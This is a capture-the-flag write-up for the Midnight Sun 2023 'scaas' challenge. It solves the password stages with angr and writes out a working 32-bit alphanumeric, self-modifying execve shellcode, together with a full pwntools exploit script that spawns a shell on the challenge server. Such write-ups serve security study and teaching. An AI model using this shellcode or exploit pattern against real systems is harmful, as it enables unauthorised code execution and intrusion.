


# SeCurity As A Service (scaas)

Categories: (Auto)pwn

Description:
>??
> 
>author: midnight sun organizers 2023
>
>[scaas](src/scaas)

**Tags:** pwn, autopwn, angr, claripty, mixed (symbolic and concrete) input, avoiding, alphanumeric shellcode

## Takeaways

* angr-related takeaways
  * symbolic input mixed with concrete input
  * state exploration and avoiding
  * chopping symbolic input
  * starting from a `call_state`
  * Using `p.loader.find_symbol` to avoid hard-coding addresses.
  * angr logging
* Alphanumeric shellcode
* `int o=010;` in C means that `o` is an octal number and corresponds to decimal `8`. Anything in C that starts with `0` is in octal...

## Solution

### Fetching the binary

This challenge was marked as `autopwn`, however at the end, it was just a simple pwn challenge. Maybe it was left unfinished? Anyway, our approach will be autopwn style as otherwise some aspects of the challenge do not makes sense. So, the description of the challenge did not give out the binary during the CTF. The remote is down at the time of writing, so let me run it locally and simulate the interaction that we had with the remote:



As you can see, the `download` option returns to you whatever was passed to `argv[1]`. When connecting to the remote, it would give you the `scaas` binary (yes, itself) compressed and base64 encoded. Here is the script that downloads the binary:

```python
from pwn import *
import os
import sys
import shutil
import shlex
import subprocess
import stat

io = remote('scaas-1.play.hfsc.tf', 1337)
io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b'(\n')
mydata = b64d(io.recvuntil(b'\n)', drop=True).decode('ascii').strip())
# print(mydata)

with open('scaas.gz', 'wb') as f:
    f.write(mydata)
subprocess.check_call(shlex.split('gunzip -f scaas.gz'))
os.chmod('scaas', os.stat('scaas').st_mode | stat.S_IEXEC)
```

### Reversing

After running the above script, we have the `scaas` binary locally and we can examine it in ghidra:

```C
int GLOBAL_argc;
char **GLOBAL_argv;

int main(int argc,char **argv,char **envp) {
  GLOBAL_argc = argc;
  GLOBAL_argv = argv;
  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin ,NULL,2,0);
  banner(); //do literally nothing. Why do you even exist?
  set_timeout(); //alarm(argv[2])
  menu();
  return 0;
}

void menu(void) {
  while( true ) {
    print_menu();   //prints the menu with the 3 options
    ulong cmd = get_ulong();
    if      (cmd == 1) download_service();
    else if (cmd == 2) unlock_serivce();
    else if (cmd == 3) exit(0);
  }
}
ulong get_ulong(void) {
  char buf [40];

  memset(buf, 0, 40);  
  read(0,buf,40);
  return strtoul(buf,NULL,0);
}
void download_service(void) {
  if (GLOBAL_argc > 1)
    printf("\nHere is your SCAAS service: (\n%s)\n", GLOBAL_argv[1]);
}

void unlock_serivce(void) {
  puts("\nPlease unlock the SCAAS service before you run out of credits");
  if (
    stage_one()   != 0 &&
    stage_two()   != 0 &&
    stage_three() != 0
  ) {
    scaas();
    return;
  }
  puts("ACCESS DENIED - Incorrect password!");
  exit(0);
}
```

Here is what we know so far:

* `get_ulong` reads 40 bytes and converts it to `unsigned long`. Note that the base of the number is automatically inferred (decimal, *octal*, or hex). **Careful on the format here.** Here is what the manual states:
  > `unsigned long strtoul(const char *nptr, char **endptr, int base);`
  >
  > The `strtoul()` function converts the initial part of the string in `nptr` to an `unsigned long` value according to the given `base`, which must be between 2 and 36 inclusive, or be the special value 0.
  >
  > The string may begin with an arbitrary amount of white space (as determined by `isspace`(3)) followed by a single optional '+' or '-' sign.  If base is zero or 16, the string may then include  a "0x" prefix, and the number will be read in base 16; otherwise, a zero base is taken as 10 (decimal) unless the next character is '0', in which case it is taken as 8 (octal).
  >
  > The remainder of the string is converted to an unsigned long value in the obvious manner, **stopping at the first character which is not a valid digit in the given base**.
  > 
  > [...]
* `unlock_service` needs to pass all 3 stages in order to reach the `scaas()` function.

So, let's examine the 3 stages:

#### The 3 Stages

```c
ulong password_one[5];
int stage_one(void) {
  puts("Enter passwords for Stage 1");
  for (int i = 0; i < 5; i = i + 1) {
    printf("Enter password %d: ",i);
    password_one[i] = get_ulong();
  }
  if ((((password_one[0] == 9530624) && (password_one[1] == 7370775)) && (password_one[2] != 0)) &&
     ((password_one[3] == 8653762 && (password_one[4] == 8987274)))) {
    return 1;
  } else {
    return 0;
  }
}

ulong password_two[5];
int stage_two(void) {  
  puts("Enter passwords for Stage 2");
  for (int i = 0; i < 5; i = i + 1) {
    printf("Enter password %d: ",i);
    password_two[i] = get_ulong();
  }
  if (((((password_two[0] * 1318) % 0x31ef03 == 4425) && (password_two[1] == 3103430)) &&
      (password_two[2] + 0x1c8 == password_two[3])) &&
     ((password_two[3] == 0x40169 && (password_two[4] % 0x2b6 == 1)))) {
    return 1;
  } else {
    return 0;
  }
}

ulong password_three[5];
int stage_three(void) {
  puts("Enter passwords for Stage 3");
  for (int i = 0; i < 5; i = i + 1) {
    printf("Enter password %d: ",i);
    password_three[i] = get_ulong();
  }
  if (((((password_three[0] * 0x213f) % 0x2b27ea == 0x5fa6) && (password_three[1] == 0x96ac81)) &&
      (password_three[2] - 0x1278 == password_three[3] + 0xcca)) &&
     ((password_three[3] == 0x5fd4d5 && (password_three[4] == (password_three[4] / 0x5a5) * 0x5a5)))
     ) {
    return 1;
  } else {
    return 0;
  }
}
```

These 3 functions are pretty trivial and similar. Each one of them reads 5 passwords. Each password is read via the `get_ulong()` function. All 15 passwords in total must be correct in order for us to invoke `scaas()`. This is a textbook [angr](https://angr.io) use case:

```python
import angr
import claripy
import sys
import logging
logging.getLogger('angr.sim_manager').setLevel(logging.DEBUG)

bin_file = 'scaas' if len(sys.argv) < 2 else sys.argv[1]
p = angr.Project(bin_file, auto_load_libs=False,
    main_opts = {
        'base_addr': 0x10000,
    }
)

symbolic_passwords = []
symbolic_input = claripy.BVS('input', 0)
for k in range(3): # three check functions
    symbolic_passwords.append([])
    for i in range(5):  # each function reads 5 passwords. Each password is 40 bytes.
        # The input will be `0xSSSSSSSSSSSSSSSS\x00<whatever>` where `S` is a symbolic hex digit.
        hex_digits = claripy.BVS(f'passwords_{k}_{i}', 16*8) # 16 hex digits are enough. No need for all 40.
        symbolic_passwords[-1].append(hex_digits)
        get_ulong_sym_buf = claripy.Concat(b'0x', hex_digits, claripy.BVV(0x00, 22*8)) # symbolic input for the get_ulong()
        assert(len(get_ulong_sym_buf)//8 == 40)
        symbolic_input = claripy.Concat(symbolic_input, get_ulong_sym_buf)
assert(len(symbolic_input)//8 == (3*5*40))

initial_state = p.factory.call_state(
    p.loader.find_symbol('unlock_serivce').rebased_addr,
    stdin=symbolic_input
)
for i in range(len(symbolic_passwords)):
    for j in range(len(symbolic_passwords[i])):
        bvs = symbolic_passwords[i][j]
        for k, chop in enumerate(bvs.chop(8)):
            # Add constraints for hex digits. Let's keep our sanity by avoiding weird bases
            # when strtoul() is executed, such as octal... e.g. 0100 would be interpreted in octal
            # and be the value 64 in decimal...
            if k == 0:
                cond = claripy.Or(
                    claripy.And(chop >= ord('1'), chop <= ord('9')),
                    claripy.And(chop >= ord('a'), chop <= ord('f')),
                )
            else:
                cond = claripy.Or(
                    claripy.And(chop >= ord('0'), chop <= ord('9')),
                    claripy.And(chop >= ord('a'), chop <= ord('f')),
                    chop == 0x00 # NULL terminator for the get_ulong()
                )
            initial_state.solver.add(cond)
initial_state.solver.simplify()

find_addr  = p.loader.find_symbol('unlock_serivce').rebased_addr + 0x3f # CALL scaas
avoid_addr = p.loader.find_symbol('unlock_serivce').rebased_addr + 0x46

simgr = p.factory.simulation_manager(initial_state)
simgr.explore(
    find= lambda state: state.addr == find_addr,
    avoid=lambda state: state.addr == avoid_addr
)

state = simgr.found[0]
solution_input = state.posix.dumps(0)
assert(len(solution_input) == (3*5*40))

# import IPython; IPython.embed();

evaluated_password = []
for i in range(len(symbolic_passwords)):
    evaluated_password.append([])
    for symbolic_hex_num in symbolic_passwords[i]:
        res = state.solver.eval(symbolic_hex_num, cast_to=bytes)
        res_end = res.find(b'\x00') # find NULL terminator for the get_ulong()
        print(res)
        res = int('0x' + res[:res_end].decode('ascii'), 16)
        print(hex(res))
        evaluated_password[-1].append(res)
    print()
print(evaluated_password)

# import IPython; IPython.embed();

with open('solution.txt', 'w') as f:
    for password in evaluated_password:
        for number in password:
            f.write(f'{hex(number)}\n')

```

And here are the results of our script:

```log
(angr) nikos@ctf-box:~$ python solver.py
WARNING  | 2023-04-27 17:36:22,722 | angr.calling_conventions | Guessing call prototype. Please specify prototype.
WARNING  | 2023-04-27 17:36:22,723 | angr.simos.simos | stdin is constrained to 600 bytes (has_end=True). If you are only providing the first 600 bytes instead of the entire stdin, please use stdin=SimFileStream(name='stdin', content=your_first_n_bytes, has_end=False).
INFO     | 2023-04-27 17:36:23,211 | angr.sim_manager | Stepping active of <SimulationManager with 1 active>
WARNING  | 2023-04-27 17:36:23,216 | angr.storage.memory_mixins.default_filler_mixin | The program is accessing register with an unspecified value. This could indicate unwanted behavior.
WARNING  | 2023-04-27 17:36:23,216 | angr.storage.memory_mixins.default_filler_mixin | angr will cope with this by generating an unconstrained symbolic variable and continuing. You can resolve this by:
WARNING  | 2023-04-27 17:36:23,216 | angr.storage.memory_mixins.default_filler_mixin | 1) setting a value to the initial state
WARNING  | 2023-04-27 17:36:23,216 | angr.storage.memory_mixins.default_filler_mixin | 2) adding the state option ZERO_FILL_UNCONSTRAINED_{MEMORY,REGISTERS}, to make unknown regions hold null
WARNING  | 2023-04-27 17:36:23,216 | angr.storage.memory_mixins.default_filler_mixin | 3) adding the state option SYMBOL_FILL_UNCONSTRAINED_{MEMORY,REGISTERS}, to suppress these messages.
WARNING  | 2023-04-27 17:36:23,216 | angr.storage.memory_mixins.default_filler_mixin | Filling register ebp with 4 unconstrained bytes referenced from 0x11857 (unlock_serivce+0x0 in scaas (0x1857))
WARNING  | 2023-04-27 17:36:23,217 | angr.storage.memory_mixins.default_filler_mixin | Filling register ebx with 4 unconstrained bytes referenced from 0x1185a (unlock_serivce+0x3 in scaas (0x185a))
INFO     | 2023-04-27 17:36:23,624 | angr.sim_manager | Stepping active of <SimulationManager with 1 active>
INFO     | 2023-04-27 17:36:23,627 | angr.sim_manager | Stepping active of <SimulationManager with 1 active>
...
INFO     | 2023-04-27 17:36:32,714 | angr.sim_manager | Stepping active of <SimulationManager with 3 active, 12 avoid>
INFO     | 2023-04-27 17:36:32,719 | angr.sim_manager | Stepping active of <SimulationManager with 2 active, 13 avoid>
INFO     | 2023-04-27 17:36:32,722 | angr.sim_manager | Stepping active of <SimulationManager with 1 active, 14 avoid>

b'916d00\x00a\x009eb\x00\x00aa'
0x916d00
b'707817\x00\x004\x00e\x00bd\x00b'
0x707817
b'7\x000744022770\x00b72'
0x7
b'840bc2\x00d078\x002\x00\x00d'
0x840bc2
b'89228a\x00a1070a\x00\x00\x00'
0x89228a

b'36e0c091\x00\x000\x00a\x00d\x00'
0x36e0c091
b'2f5ac6\x0070202dd\x000'
0x2f5ac6
b'3ffa1\x000067e0\x00\x007d'
0x3ffa1
b'40169\x00ed\x00b00bb2b'
0x40169
b'482e244f\x000f00\x000\x00'
0x482e244f

b'67f49088\x0082bb\x00\x000'
0x67f49088
b'96ac81\x00c120\x00\x00\x007\x00'
0x96ac81
b'5ff417\x005\x00\x00\x007a\x00\x00\x00'
0x5ff417
b'5fd4d5\x000\x00\x007\x00\x00\x00\x00b'
0x5fd4d5
b'184455f8\x0002\x00d\x004\x00'
0x184455f8

[[9530624, 7370775, 7, 8653762, 8987274], [920699025, 3103430, 262049, 262505, 1210983503], [1744081032, 9874561, 6288407, 6280405, 407131640]]
```

Great! Let's examine the `solution.txt`:



#### The `scaas()` function

Let's examine now the `scaas()` function. Ghidra produced horrible decompilation because of kind of dynamic stack allocation, so instead I used [dogbolt.com](https://dogbolt.org/) to decompile it with IDA. So much cleaner!

```c
#include <sys/mman.h>
#include <ctype.h>
unsigned int scaas() {
  void *v0; // esp
  int v4; // [esp+0h] [ebp-28h] BYREF
  int n; // [esp+8h] [ebp-20h]
  int v6; // [esp+Ch] [ebp-1Ch]
  char *s; // [esp+10h] [ebp-18h]
  void *code; // [esp+14h] [ebp-14h]
  void *v9; // [esp+18h] [ebp-10h]
  unsigned int v10; // [esp+1Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  n = 500;
  v6 = 499;
  v0 = alloca(512);
  STACK[0x1FC] = STACK[0x1FC];
  buf = (char *)&v4;
  printf("Run SCAAS (alphanumeric shellcode, max 500 bytes): ");

  //Reading stops after an EOF or a newline.
  fgets(buf, n, stdin);
  buf[strcspn(buf, "\n")] = '\0'; // NULL terminator
  
  if ( is_alphanumeric(buf) != 1 ) {
    puts("Error: shellcode must be alphanumeric");
  } else {
    code = mmap(
      NULL, n, 
      PROT_READ | PROT_WRITE| PROT_EXEC,
      MAP_PRIVATE | MAP_ANONYMOUS,
      -1, 0
    );
    if ( code == (void *)-1 ) {
      perror("mmap");
    } else {
      memcpy(code, buf, strlen(buf));
      v9 = code;
      ( (void (*)(void))code )(); //invoke shellcode
    }
  }
  return v10 - __readgsdword(0x14u);
}

int is_alphanumeric(char *str) {  
  char *cptr = str;
  while(1) {
    char c = *cptr;
    if (c == 0)
      return 1; //success

    ushort **ppuVar1 = __ctype_b_loc(); //https://stackoverflow.com/questions/37702434/ctype-b-loc-what-is-its-purpose
    if ( ((*ppuVar1)[c] & 8) == 0)
      return 0;
    ++cptr;
  }
}
```

We do not need to fully understand the code here. The major points are:

* Up to 500 bytes are read in a stack buffer via `fgets()`.
  > `char *fgets(char *s, int size, FILE *stream);`
  >
  > `fgets()`  reads  in  **at  most  one  less** than `size` characters from `stream` and stores them into the buffer pointed to by `s`.  Reading stops after an `EOF` or a newline.  If a newline is read, it is stored into the buffer.  A terminating null byte ('\0') is stored after the last character in the buffer.
* The code searches for `\n` in our input and replaces it with `\0`.
* The input provided must make `is_alphanumeric(buf)` return true.
* The stack buffer is `mmap`-ed to a RWX region and our shellcode gets executed.

Okay, here are some deeper observations:

* We could fool `is_alphanumeric()` by including a NULL byte or sending an EOF instead of a `\n`. However, this will not be useful to us in the end, because the `memcpy()` uses `strlen(buf)`.
* When our shellcode gets executed, no registers have been cleared.
* `is_alphanumeric` returns failure (`0`) only in the case `((*ppuVar1)[c] & 8) == 0`. This means that the `_ISdigit /* Numeric. */` bit was not set. So, we are indeed limited to only alphanumeric characters.

So, we need to write an alphanumeric shellcode after all.

### Pwning

Let's write our shellcode.

```log
nikos@ctf-box:~$ checksec --file=./scaas
[*] '~/scaas'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So, no funny stuff here, except that it is a 32-bit binary. Fortunately, [someone else](https://blackcloud.me/Linux-shellcode-alphanumeric/) has done already a great analysis on an x86 (32-bit) alphanumeric shellcode. There is also this [great phrack issue about "Writing ia32 alphanumeric shellcodes"](http://phrack.org/issues/57/15.html). With these information in hand we can craft our `execve("/bin//sh")` shellcode:

```python
payload  = b''
payload += asm('''
    push 0x30
    pop eax
    xor al, 0x30
    push eax
    pop edx
    dec eax
    xor ax, 0x4f73
    xor ax, 0x3041
    push eax
    push edx
    pop eax
    // ;----------------------
    push edx
    push 0x68735858
    pop eax
    xor ax, 0x7777
    push eax
    push 0x30
    pop eax
    xor al, 0x30
    xor eax, 0x6e696230
    dec eax
    push eax

    // ; pushad/popad to place /bin/sh in EBX register
    push esp
    pop eax
    push edx
    push ecx
    push ebx
    push eax
    push esp
    push ebp
    push esi
    push edi
    popad
    push eax
    pop ecx
    push ebx

    //set edx to 0
    push 0x30
    pop eax
    xor al, 0x30
    push eax
    pop edx

    xor al, 0x4a
    xor al, 0x41
''')
for b in payload:
    assert(chr(b).isalnum())

payload += b'\x47'*60 # letter 'G'
```

The only remaining thing is the `int 0x80` instruction, which invokes the system call. We cannot directly write this instruction because it is non-alphanumeric. Instead, we have to use self-modifying code. We will prepend to our shellcode some code that modifes the memory after our last `xor al, 0x41` instruction. This prefx will change the target memory to the `int 0x80` instruction:

```python
payload  = b''
payload += asm('''
    //make memory zero to make space for the int 0x80 instruction
    //0x47 is the padding byte that we use
    push 0x47
    pop eax
    xor [ecx+0x41], eax;
    xor [ecx+0x42], eax;
    xor [ecx+0x43], eax;
    xor [ecx+0x44], eax;
    
    //construct int 0x80
    push 0x30
    pop eax
    xor al, 0x30

    //eax is now 0
    dec eax         /* 0xffffffff in EAX */
    xor ax, 0x4f73
    xor ax, 0x3041  /* 0xffff80cd in EAX */
    xor [ecx+0x41], eax; /* int 0x80 */

    /* Remaning shellcode. Same as before. */
    /* ... */
    xor al, 0x4a
    xor al, 0x41
''')
for b in payload:
    assert(chr(b).isalnum())
payload += b'\x47'*60
```

Let's send the payload now to the remote and get the flag:

```python
from pwn import *

context.binary = elfexe = ELF('./scaas')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target

gdbscript = '''
# init-gef

# CALL fgets()
hbreak *scaas+0xbd
command
    set $buffer=*(void**)$sp
    printf "Buffer: %p\\n", $buffer    
end

# CALL eax - i.e. invoke our shellcode
hbreak *scaas+0x168

# continue
'''.format(**locals())

if args['REMOTE']:
    io = remote('scaas-1.play.hfsc.tf', 1337)
else:
    io = start()

with open('solution.txt', 'r') as f:
    solution_input = [l.strip() for l in f.readlines()]

passwords = []
for i in range(3):
    passwords.append([])
    for j in range(5):
        digit = solution_input[i*5 + j]
        passwords[-1].append(digit)
print(passwords)

io.recvuntil(b'> ')
io.send(b'2\n')

def send_password(password):
    for i, digit in enumerate(password):
        io.recvuntil(f'Enter password {i}: '.encode('utf-8'))
        payload = str(digit).encode('utf-8')
        payload += b'\x00'*(40 - len(payload))
        print('Sending digit:' + digit)
        try:
            io.send(payload)
        except:
            print(io.recvall())
            io.interactive()

for i in range(3):
    io.recvline_startswith(b'Enter passwords for Stage ')
    send_password(passwords[i])
    print(f"Stage {i+1} - passed")

payload  = b''
payload += asm('''
    /* same as before */
''')
for b in payload:
    assert(chr(b).isalnum())

payload += b'\x47'*60
io.send(payload + b'\n') # fgets

io.interactive()
io.close()
```

And by running the script, we pop a shell and get the flag!

`midnight{m0d3rn_cl0ud_sh3llc0de5}`

The full solution is in [solution.py](solution.py) script.

#### Alternative shellcode

Another idea is to use a 2-stage shellcode. The caller of the shellcode does not clear out the registers and the `mmap`-ed regions is still writable. So, our first-stage alphanumeric shellcode could invoke the `read()` syscall to overwrite itself with an unrestricted (non-alphanumeric) shellcode. The second stage can also be longer than 500 bytes because `mmap` allocates on page granularity, so this means at least 4096 bytes.
